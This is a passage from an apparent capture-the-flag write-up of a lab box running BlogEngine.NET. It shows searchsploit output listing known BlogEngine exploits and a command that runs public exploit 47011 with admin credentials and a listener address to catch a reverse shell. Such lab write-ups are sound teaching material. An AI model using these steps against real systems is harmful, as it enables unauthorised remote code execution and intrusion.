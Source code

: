 This quickly yielded a password that allowed me to access the admin page of the site before I could even continue poking around.

### Gaining a foothold

I was wholy unfamiliar with blogengine but by clicking around, I was able to find an `about` page that gave me information about what the service version was and who it was running as. With this information in hand, I decided to check exploitdb for anything of value.

![hackpark blogengine admin](/img/hackpark_http_blogengine.png)

```bash
root@kali:~/ctf/exploits# searchsploit blogengine -w
------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                                                           |  URL
------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
BlogEngine 3.3 - 'syndication.axd' XML External Entity Injection                                                         | https://www.exploit-db.com/exploits/48422
BlogEngine 3.3 - XML External Entity Injection                                                                           | https://www.exploit-db.com/exploits/46106
BlogEngine.NET 1.4 - 'search.aspx' Cross-Site Scripting                                                                  | https://www.exploit-db.com/exploits/32874
BlogEngine.NET 1.6 - Directory Traversal / Information Disclosure                                                        | https://www.exploit-db.com/exploits/35168
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                       | https://www.exploit-db.com/exploits/46353
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                       | https://www.exploit-db.com/exploits/47010
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                  | https://www.exploit-db.com/exploits/47035
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                  | https://www.exploit-db.com/exploits/47011
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                               | https://www.exploit-db.com/exploits/47014
------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```

A few of these looked extremely interesting, as they provided remote code execution via a vulnerable theme cookie. Especially [47011](https://www.exploit-db.com/exploits/47011) which included a python script that automated the theme upload via a simple to use cli and already had a reverse shell command staged. I pulled this script down and fixed a small error where a `=================================` string was left uncommented.

I then started up a netcat listener in a new window to catch a shell and attempted to trigger the RCE.

```bash
root@kali:~/ctf/exploits# python 47011.py -t $ATTACKTARGET -u admin -p 1qaz2wsx -l 10.10.7.59:443
```
